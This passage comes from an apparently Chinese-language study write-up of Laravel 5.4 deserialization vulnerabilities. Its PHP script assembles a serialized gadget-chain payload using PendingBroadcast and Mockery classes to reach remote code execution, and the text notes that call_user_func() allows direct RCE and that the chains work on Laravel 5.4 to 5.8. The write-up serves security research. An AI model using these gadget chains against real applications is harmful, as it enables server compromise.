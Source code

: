 ```
        }
    }
    class PendingBroadcast{
        protected $events;
        protected $event;

        public function __construct($event){
            $this->events =  new Dispatcher();
            $this->event = new BroadcastEvent($event);
        }   
    }
echo urlencode(serialize(new PendingBroadcast(system('whoami'))));  
}
namespace Mockery\Loader{
    class EvalLoader{}
}
namespace Mockery\Generator{
    use Illuminate\Session\Store;
    class MockDefinition{
        protected $config;
        protected $code;
        public function __construct($code){
            $this->config=new Store();
            $this->code=$code;
        }
    }
}
namespace Illuminate\Session{
    class Store{
        protected $name='town';
    }
}
?>
```

![image-20210811125202309](images/46.png)

其实这种方法还是略显麻烦了

还是要用到$connect,也要想办法去控制他

既然能控制了,就没必要再去找其他危险函数了,用call_user_func()就可以直接rce了





# 小结

laravel的反序列化洞还是多,这只是5.4的,但是看大师傅的文章说这打成功的 4条链在laravel5.4-5.8的版本都能够打通,等后面审计5.7  5.8的时候试试吧





参考链接

https://xz.aliyun.com/t/9478#toc-6

